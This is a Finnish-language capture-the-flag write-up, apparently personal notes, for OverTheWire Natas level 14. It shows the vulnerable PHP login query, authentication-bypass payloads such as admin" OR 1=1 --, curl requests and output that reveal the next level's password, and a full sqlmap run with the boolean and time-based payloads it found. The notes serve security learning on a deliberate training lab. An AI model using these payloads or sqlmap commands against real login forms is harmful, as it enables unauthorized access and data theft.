





# level 14 - START HERE

natas14 : z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ

Perus selvittämistä ja tässä näyttää ainakin koodin ainakin on *username ; password* mahtaako olla koskien SQL injektiota tai tavallinen shell injektiota? 

PHP - koodikielessä ainakin (_index-source.html_) on *query* - kyselly, että hakee käyttäjännimen ja salasanansa, että jos täsmää sitten päästään eteenpäin, että pääsee hakee seuraavan levelin salasanansa, eli on **SQL injektio**.

ainakin pikaisella testauksella syötä **username:username** , **password:password** - *access denied!*


Tämä osuus ainakin kertoo kyseessä on SQL injektio ja tämä funktio:
```
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

```

Sekä mahdolliset avain sanat meitä varmaan kiinnostaa ja debbugoida on ainakin.. `GET`, `username`, `password` ja `debug` parametrit. Tärkeimistä ainakin tarkistettu F12 ja url perään laitettu `/robots.txt`, että ei apua joten alettaan käydä kiinni mm. `curl` - komennon kautta ja jne.


## Level 14 - 1 SQL injektio

SQL-injektio on hyökkäysmenetelmä, jossa käyttäjä syöttää haitallista SQL-koodia sovelluksen lomakkeisiin tai URL-parametreihin, jotka eivät ole kunnolla suojattu. SQL-injektiota voidaan kokeilla lisäämällä erityisiä merkkejä (kuten `' OR 1=1 --`) URL-parametreihin ja katsoa, kuinka palvelin reagoi.

Jos palvelin ei ole suojattu kunnolla, se voi altistua SQL-injektiolle ja paljastaa tietoja tai jopa antaa mahdollisuuden kirjautua sisään ilman oikeaa salasanaa.

Esim. yritettään päästä login sisäänsä sen **username;password** 
```
username=' OR '1'='1
password=' OR '1'='1
```

- SQL kysely; SELECT * FROM users WHERE username = 'alice' AND password = 's3cr3t';

**muita esim.** <br>
```
SELECT * FROM users WHERE username = 'alice' AND password = 's3cr3t';
SELECT * FROM users WHERE username = 'alice' OR '1'='1' AND password = 's3cr3t' OR '1'='1';
```

**Miksi juuri "alice"?** <br>
Alice on valittu mahdollisesti esimerkkinä, koska se on helppo arvata ja käyttää testissä. Jos tietoturva-asiantuntijat suunnittelevat tällaisia haasteita, he voivat käyttää yleisiä nimiä (kuten "alice", "bob", "admin"), jotta voit kokeilla niitä oletuksena.


Alice voi myös liittyä johonkin järjestelmän oletusasetuksiin, tai se voi olla oletuskäyttäjä (vaikka tämä on vähemmän todennäköistä).

Täysin mahdollista, että tässä URL:ssa on SQL-injektio-aukko, ja "alice" voi olla käyttäjätunnus, jota pyritään hyödyntämään. SQL-injektiota voidaan kokeilla lisäämällä erityisiä merkkejä (kuten `' OR 1=1 --`) URL-parametreihin ja katsoa, kuinka palvelin reagoi.

Jos palvelin ei ole suojattu kunnolla, se voi altistua SQL-injektiolle ja paljastaa tietoja tai jopa antaa mahdollisuuden kirjautua sisään ilman oikeaa salasanaa.

---

# Level 14 - 2 - virallinen testi ja harjoitus - START HERE

Tähän väliin tulee muutamia kuvia, josta on suoritettu testejä ja vasta sen jälkeen toimivista ainakin osa antoi pientä vihjettä.

**TESTI1** <br>


**TESTI2** - et lisäsin alkuun ton _sadf'_ 


**TESTI3** tässä alkoi tapahtua jotakin seuraavina, että antoi tämän tiedostonhakemiston polunsa eli **var/www/natas/natas14/index.php** ja jne.


**TESTI4** seuraava testinä joka toimii sama ideana kuin aikaisempi, mutta virheitä ja voi ollaan lähellä maalia. 


**TESTI5** <br>


**TESTI6** seuraavina testeinä aloin kokeilla iskeä sitä SQL-injektiota URL-perään, kun PHP-koodi pätkässä viittasi tämän _if_ lausekkeensa `if(array_key_exists("debug", $_GET)) {`. Perään sijoitin pari-muutama  `&&` merkin, koska ne viittaa kyseisen lomakkeen username;password formaattia.  


**TESTI7** tämä on sama idea kuin aikaisempi, mutta perässä on tämä `' OR 1=1 --` - joka on enkodaattu ja näin se sijoittuu URL-perään. Jos menisi lomakkeen kautta se ois kuin `"admin' OR 1=1 --`.

**`' OR 1=1 --`** - enkoodattuna: <br>
Tämä enkodaattu pätee myös todellisuudessaan kirjauttumisen formaattissa ja URL:issa , periaate pätee todellisuudessakin web-sovelluksissa, jos ne ovat haavoittuvia SQL-injektiolle.


**TESTI8** - tämä on sama kuin aikaisempi _TESTI7_ mutta perässä lisäsin erikoismerkin kuin `"` - ja tässä vähitelen koskien tätä SQL injektiota, että testataan lisätä username ja password kenttään menisi tällä merkillä. 


**TESTI9** ja nyt päästiin, mutta jälkimmäisessä _TESTI10_ on tarkennusta vähäsen


Tämä enkoodattu (URL) 
`username=admin%22%20OR%201%3D1%20--&password=admin'` 
vastaa --> 
dekoodattua (alempi formaatti): 
```
username=admin" OR 1=1 --
password=admin
```

Pientä tarkennusta koskien miten tämä toimikaan (vscode muistiinpanoa) ja tämä **testi9**: 
`http://natas14.natas.labs.overthewire.org/index.php?debug=1&&username=admin%22%27%20OR%201%3D1%20--&&password=admin%27%20OR%201%3D1%20--%22`

dekodaattu menisi näin: 
```
username = admin"' OR 1=1 --
password = admin' OR 1=1 --"
```

<br>

**TESTI10** ,  tämä on sama idea kuin _testi9_ , mutta mentiin lomakkeen formaattin kautta kirjauttumisen prosessilla. Molemmat ovat samoja sisältöjä, mutta eri kuljetusmuoto. 

Alemman pieni toisto:
```
admin"' OR 1=1 --
password' OR 1=1 --"
```




---

# Level 14 - 3 Kali Linux version - START HERE

Tämä menisi kali linux versiolla, mutta skippaan osan ja tässä mennään curl komennolla, ja just aikaisempien kuvien URL komento vain liittettään siihen ja näin saattaisiin vastaus - aikalailla kuin _copy paste_. 


```
┌──(kali㉿kali)-[~]
└─$ curl -u natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ "http://natas14.natas.labs.overthewire.org"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Ylemmästä ainakin huomataan kirjauttumisen lomakkeensa, että input vähä kuin id nimetty "username/password".

Pikainen tarkistus tuosta välilehden polusta ainakin, mutta sekalaista höpönlöpöä ainakin näkyvinä. 

```
┌──(kali㉿kali)-[~]
└─$ curl -u natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ "http://natas14.natas.labs.overthewire.org/index-source.html"
<code><span style="color: #000000">
&lt;html&gt;<br />&lt;head&gt;<br />&lt;!--&nbsp;This&nbsp;stuff&nbsp;in&nbsp;the&nbsp;header&nbsp;has&nbsp;nothing&nbsp;to&nbsp;do&nbsp;with&nbsp;the&nbsp;level&nbsp;--&gt;<br />&lt;link&nbsp;rel="stylesheet"&nbsp;type="text/css"&nbsp;href="http://natas.labs.overthewire.org/css/level.css"&gt;<br />&lt;link&nbsp;rel="stylesheet"&nbsp;href="http://natas.labs.overthewire.org/css/jquery-ui.css"&nbsp;/&gt;<br />&lt;link&nbsp;rel="stylesheet"&nbsp;href="http://natas.labs.overthewire.org/css/wechall.css"&nbsp;/&gt;<br />&lt;script&nbsp;src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"&gt;&lt;/script&gt;<br />&lt;script&nbsp;src="http://natas.labs.overthewire.org/js/jquery-ui.js"&gt;&lt;/script&gt;<br />&lt;script&nbsp;src=http://natas.labs.overthewire.org/js/wechall-data.js&gt;&lt;/script&gt;&lt;script&nbsp;src="http://natas.labs.overthewire.org/js/wechall.js"&gt;&lt;/script&gt;<br />&lt;script&gt;var&nbsp;wechallinfo&nbsp;=&nbsp;{&nbsp;"level":&nbsp;"natas14",&nbsp;"pass":&nbsp;"&lt;censored&gt;"&nbsp;};&lt;/script&gt;&lt;/head&gt;<br />&lt;body&gt;<br />&lt;h1&gt;natas14&lt;/h1&gt;<br />&lt;div&nbsp;id="content"&gt;<br /><span style="color: #0000BB">&lt;?php<br /></span><span style="color: #007700">if(</span><span style="color: #0000BB">array_key_exists</span><span style="color: #007700">(</span><span style="color: #DD0000">"username"</span><span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">$_REQUEST</span><span style="color: #007700">))&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">$link&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #0000BB">mysqli_connect</span><span style="color: #007700">(</span><span style="color: #DD0000">'localhost'</span><span style="color: #007700">,&nbsp;</span><span style="color: #DD0000">'natas14'</span><span style="color: #007700">,&nbsp;</span><span style="color: #DD0000">'&lt;censored&gt;'</span><span style="color: #007700">);<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">mysqli_select_db</span><span style="color: #007700">(</span><span style="color: #0000BB">$link</span><span style="color: #007700">,&nbsp;</span><span style="color: #DD0000">'natas14'</span><span style="color: #007700">);<br /><br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">$query&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #DD0000">"SELECT&nbsp;*&nbsp;from&nbsp;users&nbsp;where&nbsp;username=\""</span><span style="color: #007700">.</span><span style="color: #0000BB">$_REQUEST</span><span style="color: #007700">[</span><span style="color: #DD0000">"username"</span><span style="color: #007700">].</span><span style="color: #DD0000">"\"&nbsp;and&nbsp;password=\""</span><span style="color: #007700">.</span><span style="color: #0000BB">$_REQUEST</span><span style="color: #007700">[</span><span style="color: #DD0000">"password"</span><span style="color: #007700">].</span><span style="color: #DD0000">"\""</span><span style="color: #007700">;<br />&nbsp;&nbsp;&nbsp;&nbsp;if(</span><span style="color: #0000BB">array_key_exists</span><span style="color: #007700">(</span><span style="color: #DD0000">"debug"</span><span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">$_GET</span><span style="color: #007700">))&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;</span><span style="color: #DD0000">"Executing&nbsp;query:&nbsp;</span><span style="color: #0000BB">$query</span><span style="color: #DD0000">&lt;br&gt;"</span><span style="color: #007700">;<br />&nbsp;&nbsp;&nbsp;&nbsp;}<br /><br />&nbsp;&nbsp;&nbsp;&nbsp;if(</span><span style="color: #0000BB">mysqli_num_rows</span><span style="color: #007700">(</span><span style="color: #0000BB">mysqli_query</span><span style="color: #007700">(</span><span style="color: #0000BB">$link</span><span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">$query</span><span style="color: #007700">))&nbsp;&gt;&nbsp;</span><span style="color: #0000BB">0</span><span style="color: #007700">)&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;</span><span style="color: #DD0000">"Successful&nbsp;login!&nbsp;The&nbsp;password&nbsp;for&nbsp;natas15&nbsp;is&nbsp;&lt;censored&gt;&lt;br&gt;"</span><span style="color: #007700">;<br />&nbsp;&nbsp;&nbsp;&nbsp;}&nbsp;else&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;</span><span style="color: #DD0000">"Access&nbsp;denied!&lt;br&gt;"</span><span style="color: #007700">;<br />&nbsp;&nbsp;&nbsp;&nbsp;}<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">mysqli_close</span><span style="color: #007700">(</span><span style="color: #0000BB">$link</span><span style="color: #007700">);<br />}&nbsp;else&nbsp;{<br /></span><span style="color: #0000BB">?&gt;<br /></span><br />&lt;form&nbsp;action="index.php"&nbsp;method="POST"&gt;<br />Username:&nbsp;&lt;input&nbsp;name="username"&gt;&lt;br&gt;<br />Password:&nbsp;&lt;input&nbsp;name="password"&gt;&lt;br&gt;<br />&lt;input&nbsp;type="submit"&nbsp;value="Login"&nbsp;/&gt;<br />&lt;/form&gt;<br /><span style="color: #0000BB">&lt;?php&nbsp;</span><span style="color: #007700">}&nbsp;</span><span style="color: #0000BB">?&gt;<br /></span>&lt;div&nbsp;id="viewsource"&gt;&lt;a&nbsp;href="index-source.html"&gt;View&nbsp;sourcecode&lt;/a&gt;&lt;/div&gt;<br />&lt;/div&gt;<br />&lt;/body&gt;<br />&lt;/html&gt;<br /></span>
</code>                                                                                                                  ```

```

syötin jotakin satunnaista et ainakin tooimii ja kertookin jotakin (alempi komento)

```
┌──(kali㉿kali)-[~]
└─$ curl -u natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ "http://natas14.natas.labs.overthewire.org?debug&username=something&&passsword=random" 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
<br />
<b>Notice</b>:  Undefined index: password in <b>/var/www/natas/natas14/index.php</b> on line <b>19</b><br />
Executing query: SELECT * from users where username="something" and password=""<br>Access denied!<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```


vähä kuin aikaisemmat testit `"admin"` ja `"admin"`: 

```
┌──(kali㉿kali)-[~]
└─$ curl -u natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ "http://natas14.natas.labs.overthewire.org/index.php?debug=1&&username=admin&&password=admin%22%20OR%201=1%E2%80%93%20&&password=admin"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
Executing query: SELECT * from users where username="admin" and password="admin"<br>Access denied!<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```

nyt tässä on syötettu url enkoodattuna toi **"admin"' OR 1=1 --"** muodosta sinne URL username ja password kentään
**Vastaus** löytyy kun rullaa siitä oikealle, sekä kantsii katsoa loppuun asti

```
┌──(kali㉿kali)-[~]
└─$ curl -u natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ "http://natas14.natas.labs.overthewire.org/index.php?debug=1&&username=admin%22%27%20OR%201%3D1%20--&&password=admin%27%20OR%201%3D1%20--%22"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
Executing query: SELECT * from users where username="admin"' OR 1=1 --" and password="admin' OR 1=1 --""<br>Successful login! The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

## Kali Linux - SQLMAP version - START HERE

kokeilin yksi niistä komennosa ja ainakin pelittävän, mutta tulokse on vähä hämääviä.. 
```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas14.natas.labs.overthewire.org/index.php" \                                    
  --auth-type Basic \
  --auth-cred "natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ" \
  --data "username=admin&password=admin" \
  --batch
        ___
       __H__                                                                                                                         
 ___ ___[.]_____ ___ ___  {1.8.5#stable}                                                                                             
|_ -| . [.]     | .'| . |                                                                                                            
|___|_  [']_|_|_|__,|  _|                                                                                                            
      |_|V...       |_|   https://sqlmap.org                                                                                         

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:15:47 /2025-05-17/

[12:15:47] [INFO] testing connection to the target URL
[12:15:47] [WARNING] potential permission problems detected ('Access denied')
[12:15:47] [INFO] checking if the target is protected by some kind of WAF/IPS
[12:15:47] [INFO] testing if the target URL content is stable
[12:15:48] [INFO] target URL content is stable
[12:15:48] [INFO] testing if POST parameter 'username' is dynamic
[12:15:48] [WARNING] POST parameter 'username' does not appear to be dynamic
[12:15:48] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
[12:15:48] [INFO] testing for SQL injection on POST parameter 'username'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[12:15:48] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:15:49] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[12:15:49] [INFO] testing 'Generic inline queries'
[12:15:49] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[12:15:51] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[12:15:52] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[12:15:53] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)' injectable 
[12:15:53] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[12:15:53] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[12:15:53] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[12:15:53] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[12:15:53] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[12:15:53] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[12:15:53] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[12:15:53] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[12:15:53] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[12:15:53] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[12:15:53] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[12:15:53] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[12:15:53] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[12:15:53] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[12:15:53] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[12:15:54] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[12:15:54] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[12:15:54] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[12:15:54] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[12:15:54] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[12:15:54] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[12:15:54] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[12:15:54] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[12:15:54] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[12:15:54] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[12:15:54] [INFO] testing 'MySQL inline queries'
[12:15:54] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[12:15:54] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[12:15:54] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[12:15:54] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[12:15:54] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[12:15:54] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[12:15:54] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[12:16:04] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[12:16:04] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[12:16:04] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[12:16:04] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[12:16:04] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[12:16:04] [INFO] target URL appears to have 2 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[12:16:05] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[12:16:06] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[12:16:07] [INFO] testing 'MySQL UNION query (73) - 21 to 40 columns'
[12:16:08] [INFO] testing 'MySQL UNION query (73) - 41 to 60 columns'
[12:16:09] [INFO] testing 'MySQL UNION query (73) - 61 to 80 columns'
[12:16:10] [INFO] testing 'MySQL UNION query (73) - 81 to 100 columns'
[12:16:10] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[12:16:10] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 278 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: username=admin" OR NOT 9188=9188#&password=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin" AND (SELECT 2142 FROM (SELECT(SLEEP(5)))vnvd)-- Cgqh&password=admin
---
[12:16:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[12:16:11] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas14.natas.labs.overthewire.org'
[12:16:11] [WARNING] your sqlmap version is outdated

[*] ending @ 12:16:11 /2025-05-17/

```

